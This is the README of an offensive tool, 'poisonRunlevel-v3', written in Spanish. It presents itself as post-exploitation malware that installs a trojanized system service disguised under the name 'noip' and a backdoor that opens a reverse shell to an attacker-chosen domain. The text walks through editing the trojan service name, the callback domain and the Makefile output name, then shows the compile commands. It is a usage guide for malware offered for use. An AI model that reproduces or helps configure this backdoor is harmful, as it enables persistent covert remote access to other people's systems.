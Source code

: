# poisonRunlevel-v3
Post-Exploitation - Servicio troyanizado - Backd00r
<h4>poisonRunlevel v3. Demo</h4>
https://www.youtube.com/watch?v=f_HsdmacLNI

<iframe width="560" height="315" src="https://www.youtube.com/embed/f_HsdmacLNI" frameborder="0" allow="autoplay; encrypted-media" allowfullscreen></iframe>

Editar:
<pre>
src/poisønRunLevel.c ## editar linea para cambiar nombre de servicio (backdoor)
    34	#define TROY "noip" // set nombre servicio troyano
</pre>

<pre>
src/backd00r.c ## setear nombre de dominio donde conectara reverse shell
    14	#define DOMINIO "nombredominio.cl"
</pre>

<pre>
Makefile ## editar Makefile nombre de salida (-o) de backdoor
     9		gcc src/backd00r.c -o noip 
</pre>

Compilar:
<pre>
[p0fk@blackbell poisonRunlevel-v3]$ make
rm -f opendoor poison unit.service
gcc src/backd00r.c -o noip 
gcc -std=c99 -std=gnu99 src/poisønRunLevel.c -o poison -Ilib/ 
</pre>
